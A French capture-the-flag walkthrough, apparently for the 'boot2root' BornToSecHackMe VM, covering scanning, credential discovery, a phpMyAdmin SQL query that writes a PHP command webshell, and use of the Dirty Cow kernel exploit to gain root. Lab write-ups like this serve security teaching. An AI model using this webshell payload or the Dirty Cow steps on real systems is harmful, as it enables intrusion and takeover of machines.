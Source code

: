 
## Configuration de la VM et ports

Après avoir créé simplement une VM, monté l'ISO du sujet, on peut configuer les options réseau de la VM sur virtualbox

Aller dans File->Host network manager

Créer un nouvel host, avec pour adresse 192.168.56.1

Aller dans Settings->Network

Dans adapteur1, créer un host-only, avec comme nom celui précédemment créé.

On lance la VM.

## Scan de la VM

On cherche l'adresse ip de notre VM. Dans la console :

- `nmap 192.168.56.0-255`
  ```shell
  [...]
    Nmap scan report for 192.168.56.101
    Host is up (0.10s latency).
    Not shown: 994 closed tcp ports (conn-refused)
    PORT    STATE SERVICE
    21/tcp  open  ftp
    22/tcp  open  ssh
    80/tcp  open  http
    143/tcp open  imap
    443/tcp open  https
    993/tcp open  imaps
  [...]
  ```

L'adresse qui nous intéresse ici est 192.168.56.101, car c'est celle qui possède le plus de ports d'ouverts.
On prendra toujours la dernière adresse qui possede le plus de ports ouverts, son numero peut changer selon les installations.
On l'appelera 192.168.56.#.

## Utiliser un 'penetration testing tools' pour trouver d'autres accès

On utilise **[Dirb](https://www.kali.org/tools/dirb/)**, qui cher he les pages web accessibles sur l'ip fournie.

- `./scripts/install_dirb`
- `dirb https://192.168.56.101 ~/Applications/dirb222/wordlists/common.txt -rN 403`
  ```shell
  [...]
    ---- Scanning URL: https://192.168.56.101/ ----
    ==> DIRECTORY: https://192.168.56.101/forum/
    ==> DIRECTORY: https://192.168.56.101/phpmyadmin/
    ==> DIRECTORY: https://192.168.56.101/webmail/
  [...]
  ```
On découvre ainsi l'existence d'un forum, d'un phpMyAdmin et d'un webmail.

## Forum

Parmi les sujets sur le forum, lmezard en a créé un nommé "Problème login ?" dont voici un extrait:

>Oct 5 08:45:26 BornToSecHackMe sshd[7547]: input_userauth_request: invalid user adam [preauth]<br/>
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): check pass; user unknown<br/>
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=161.202.39.38-static.reverse.softlayer.com<br/>
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: **Failed password for invalid user !q\]Ej?*5K5cy*AJ** from 161.202.39.38 port 57764 ssh2<br/>
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]<br/>
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)<br/>
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard<br/>
Oct 5 10:51:01 BornToSecHackMe CRON[13049]: pam_unix(cron:session): session closed for user root<br/>

L'utilisateur a entré ce qui ressemble à un password dans le champs login: `!q\]Ej?*5K5cy*AJ`

On essaie donc ce mot de passe pour l'utilisateur lmezard sur le forum via le lien 'Log in' en haut à droite de la page, ça fontionne !
Dans les paramètres du user, on trouve aussi son mail : `laurie@borntosec.net`

## Webmail

On peut accéder au webmail (https://192.168.56.#/webmail) avec l'adresse mail et le mot de passe du forum, ça fonctionne également !

On apprend dans les mails reçus que l'on peut accéder à la database avec les identifiants suivants, qui sont envoyés par ft_root@mail.borntosec.net :

`root` / `Fg-'kKXBj87E:aJ$`

## PhpMyAdmin Webshell exploit

On peut effectivement se connecter à phpMyAdmin (https://192.168.56.#/phpmyadmin) avec les identifiants découverts.
Après quelques recherchers, cette version de phpMyAdmin est vulnérable à un [exploit Webshell](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/). Pour pouvoir exploiter cette vulnérabilité, il va falloir trouver un dossier où l'on peut écrire.

- `dirb https://192.168.56.101/forum ~/Applications/dirb222/wordlists/common.txt -rN 403`
  ```shell
  [...]
    ---- Scanning URL: https://192.168.56.101/forum/ ----
    ==> DIRECTORY: https://192.168.56.101/forum/images/
    ==> DIRECTORY: https://192.168.56.101/forum/includes/
    + https://192.168.56.101/forum/index (CODE:200|SIZE:4935)
    + https://192.168.56.101/forum/index.php (CODE:200|SIZE:4935)
    ==> DIRECTORY: https://192.168.56.101/forum/js/
    ==> DIRECTORY: https://192.168.56.101/forum/lang/
    ==> DIRECTORY: https://192.168.56.101/forum/modules/
    ==> DIRECTORY: https://192.168.56.101/forum/templates_c/
    ==> DIRECTORY: https://192.168.56.101/forum/themes/
    ==> DIRECTORY: https://192.168.56.101/forum/update/
  [...]
  ```

- On va tester ces dossiers pour notre exploit depuis l'onglet SQL de phpMyAdmin:
  ```sql
    SELECT "<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET['cmd']) {​​system($_GET['cmd']);}​​ ?> </pre></BODY></HTML>" INTO OUTFILE '/var/www/<DIRECTORY>/webshell.php'
  ```
  - Le premier a fonctionner est le dossier forum/templates_c, on obtient donc un moyen de lancer des commandes via PhPMyAdmin à l'adresse "https://192.168.56.#/forum/templates_c/webshell.php" grâce à la fonction [system](https://www.php.net/manual/en/function.system.php) de php!

Avec la commande “uname -a”, on obtient par exemple des informations sur le système, qui nous seront utiles plus tard.

> Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux

En fouinant un peu, on a aussi pu découvrir le contenu de "/home/LOOKATME/password"

Ce fichier password contient les identifiants pour une connexion ftp :

lmezard / G!@M6f4Eatau{sF"

<h1> Connexion FTP et le fichier fun </h1>

On se connecte donc en ftp à la VM avec les identifiants trouvés, à l'adresse 192.168.56.# puisque le port ftp y est ouvert.

On télécharge le README et le fichier ‘fun’ grâce a la commande “get”.

Contenu du README :

> Complete this little challenge and use the result as password for user 'laurie' to login in ssh

On lance ensuite :

>file fun

Afin de connaître le type de ce fichier.

> fun: POSIX tar archive (GNU)

En faisant une première analyse manuelle de ce fichier, on voit clairement qu'il contient du code C, avec un main contenant 12 fonctions getmeX(), qui doivent renvoyer un caractère.

En décompilant ce fichier ("tar xvf fun"), on obtient un dossier ft_fun contenant de multiples fichiers aux noms barbares, contenant eux mêmes des morceaux de code C, avec un commentaire indiquant un numéro de fichier.

On doit donc écrire un script pour trier et former, dans l'ordre indiqué par les commentaires des fichiers, le code C de ces mêmes fichiers.
Ce script se trouve dans le dossier script du rendu, et doit être utilisé dans le dossier où se trouve le dossier ft_fun.

En récupérant la suite du code du fichier fun qui ne faisait pas partie des fichiers décompilés, on arrive à reconstruire un fichier C compilable comprenant 12 fonctions et un main, dont la sortie est la suivante :

> MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit

On obtient donc le password suivant, pour l'utilisateur laurie :

>330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

<h1> Connexion SSH </h1>

En ayant une connexion SSH, nous pouvons désormais continuer de suivre le chemin de petits cailloux, ou bien utiliser d'autres exploitations, ce que nous allons évidemment faire.

<h2>Dirty Cow</h2>

Nous l'avions appris précédemment, le kernel est un Linux de version inférieure à 4.0

C'est pourquoi nous pouvons utiliser une vulnérabilité du système, au doux nom de Dirty Cow (ref. CVE-2016-5195)

>  _A [race condition](https://en.wikipedia.org/wiki/Race_condition) was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.
An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system._

De nombreux codes existent sur internet afin de profiter de cette vulnérabilité, et nous avons choisi d'utiliser [ce code](https://www.exploit-db.com/exploits/40839), présent dans le dossier scripts, qui modifie le nom de connexion à root et change son password.

On ouvre donc un editeur de code (tel que vim) dans la VM, et on sauvegarde le code du dirty cow dans un fichier .c, à compiler avec la commande `gcc -pthread dirty.c -lcrypt` et on exécute.
On peut ensuite suivre les instructions du programme, puis se connecter avec les credentials appropriés sur la VM.
